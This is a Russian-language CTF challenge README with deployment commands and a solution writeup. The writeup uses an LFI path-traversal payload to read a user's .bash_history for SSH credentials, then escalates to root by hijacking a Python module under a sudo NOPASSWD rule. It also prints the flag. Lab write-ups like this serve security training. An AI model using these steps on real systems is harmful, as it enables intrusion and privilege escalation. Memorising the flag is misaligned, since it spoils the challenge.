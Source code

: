 # Inspection
<img width="855" alt="image" src="https://github.com/user-attachments/assets/15669a57-5ebe-48b7-8c15-71f90a28a46c">


## Сложность: Easy

## Описание
Мы заказали разработку веб-сайта для нашего инновационного бизнес-проекта, цена была крайне привлекательной и сроки не подвели, однако знающие люди посоветовали вызвать инспекцию по вопросам безопасности...

# Deployment
Сборка образа:
```
docker build -t inspection .
```
Запуск контейнера:
```
docker run -p 5000:80 5001:22 inspection
```

# Writeup 
В ходе изучения ресурса обращаем внимание, что вызов страниц выполняется через параметр page:
```
/index.php?page=main.php
```
Параметр уязвим к Local File Inclusion и имеет слабую фильтрацию, при помощи чего получаем имя пользователя и в его домашней директории находим креды для ssh:
```
/?page=....//....//....//....//home/dexter/.bash_history
dexter:s2cr2t_p255_f0r_ssH
```
Цепляемся по ssh c полученным паролем, проверям sudoers:
```
sudo -l
(ALL) NOPASSWD: /usr/bin/python3 /home/dexter/disk_usage.py
```
Проверяем содержимое файла disk_usage.py:
```
import subprocess

def get_disk_usage():
  output = subprocess.check_output(["df", "-h"])
  return output.decode("utf-8")

if __name__ == "__main__":
  disk_usage = get_disk_usage()
  print(disk_usage)
```
Ничего примечательного, однако файл находится в нашей домашней директории и импортирует стороннюю библиотеку. 
Перемещаемся в директорию скрипта и выполняем Python Module Hijacking:
```
chmod +w /home/dexter
echo 'import os; os.system("/bin/bash")' > subprocess.py
sudo /usr/bin/python3 /home/dexter/disk_usage.py
root@5b270cd538c6:/home/dexter# id
uid=0(root) gid=0(root) groups=0(root)
```
Забираем флаги user.txt и root.txt

## Ответ:
### tqlCTF{lf1_1nsp3ct10n_h4s_4rr1v3d}
